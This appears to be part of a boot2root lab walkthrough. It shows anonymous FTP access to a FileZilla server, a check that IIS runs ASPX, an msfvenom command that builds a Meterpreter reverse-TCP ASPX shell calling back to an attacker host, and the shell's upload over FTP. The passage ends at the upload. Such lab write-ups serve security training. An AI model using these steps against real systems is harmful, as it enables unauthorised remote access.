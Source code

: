 ### Anonymous FTP - test login

    root@kali:~/boot2root# ftp 192.168.0.102
    Connected to 192.168.0.102.
    220-FileZilla Server 0.9.60 beta
    220-written by Tim Kosse (tim.kosse@filezilla-project.org)
    220 Please visit https://filezilla-project.org/
    Name (192.168.0.102:root): anonymous
    331 Password required for anonymous
    Password:
    230 Logged on


### Whats on the FTP server?

    ftp> ls
    200 Port command successful
    150 Opening data channel for directory listing of "/"
    drwxr-xr-x 1 ftp ftp              0 Nov 13  2017 aspnet_client
    -rw-r--r-- 1 ftp ftp             89 Nov 13  2017 hello.aspx
    -rw-r--r-- 1 ftp ftp             96 Nov 13  2017 index.html


### ASP.NET probe

It looks like the web server (IIS on Windows) is configured to run aspx (ASP.NET) server side code. Verify this by visiting [http:192.168.0.102/hello.aspx](#) in a browser. Confirmed.


### Create an ASPX reverse shell payload using MSFVenom

    root@kali:~/boot2root# msfvenom -p windows/meterpreter/reverse_tcp -f aspx LHOST=192.168.0.99 LPORT=4444 -o     rshell.aspx
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 333 bytes
    Final size of aspx file: 2773 bytes
    Saved as: rshell.aspx


### Upload payload via anon FTP

    root@kali:~/boot2root# ftp 192.168.0.102
    Connected to 192.168.0.102.
    220-FileZilla Server 0.9.60 beta
    220-written by Tim Kosse (tim.kosse@filezilla-project.org)
    220 Please visit https://filezilla-project.org/
    Name (192.168.0.102:root): anonymous
    331 Password required for anonymous
    Password:
    230 Logged on
    Remote system type is UNIX.
    ftp> lcd ~/boot2root
    Local directory now /root/boot2root
    ftp> put rshell.aspx
    local: rshell.aspx remote: rshell.aspx
    200 Port command successful
    150 Opening data channel for file upload to server of "/rshell.aspx"
    226 Successfully transferred "/rshell.aspx"
    335 bytes sent in 0.00 secs (7.4298 MB/s)
